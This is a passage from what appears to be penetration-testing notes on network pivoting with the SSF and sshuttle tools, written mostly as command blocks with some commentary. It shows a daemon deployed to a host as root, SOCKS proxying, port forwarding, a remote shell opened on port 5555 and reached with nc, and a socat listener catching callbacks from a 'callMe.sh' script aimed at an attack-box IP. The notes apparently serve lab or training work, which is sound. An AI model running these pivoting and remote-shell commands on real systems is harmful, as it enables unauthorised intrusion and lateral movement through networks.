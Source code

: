 ```
[[ SSF~Server ]]*
cd tools/ssf/ssf-linux-x86_64-3.0.0
scp ssfd config.json root@lamp:
ssh root@lamp ./ssfd --gateway-ports
```

```
[[ SSF~Client ]]*
cd tools/ssf/ssf-linux-x86_64-3.0.0
./ssf lamp --socks 9050 --remote-tcp-forward 0.0.0.0:4444:127.0.0.1:4444 --shell 5555 
    #This command is doing a lot -- we created a socks proxy through lamp on 9050, we opened up port 4444 on lamp to forward to localhost 4444, and opened up 5555 locally for a shell on lamp
```

```
[[ SSF~CallMe ]]*
lsof -i tcp:9050
lsof -i tcp:4444
    #If this fails, then we need to start up our listener again
    socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &

ssh root@lamp ss -punta
cat /tmp/PROOF
proxychains4 -q callMe.sh linux 80 10.2.20.220 4444 tcp
cat /tmp/PROOF

    #Lets also grab a shell from this server
lsof -i tcp:5555
nc 127.0.0.1 5555
```


#### clean up

```
[[ SSF~CallMe ]]
pkill ssf
ssh root@lamp pkill ssfd
```

## sshuttle

While I think sshuttle is a cool tool, I do not understand all the networking going on under the hood and tools that make changes to my iptables rules makes me uncomfortable.  The benefits of this tool is its simplicity in use, and its small presence on the device to pivot through -- you just need an ssh connection and python on the box.  The major drawback is that if it does not work, it will be painful to troubleshoot.

```
[[ sshuttle~connect ]]*
sudo sshuttle --remote root@tom 10.X.22.0/24  --daemon
	#The third octet for the target machines is 22, so this will only tunnel traffic meant for the target through the sshuttle tunnel.
	#Also note that we are using root, but you do not need root access for this to work
yes

	#Notice sshuttle changes our iptables rules.  I do not enjoy this.
sudo iptables -t nat -nvL

lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```
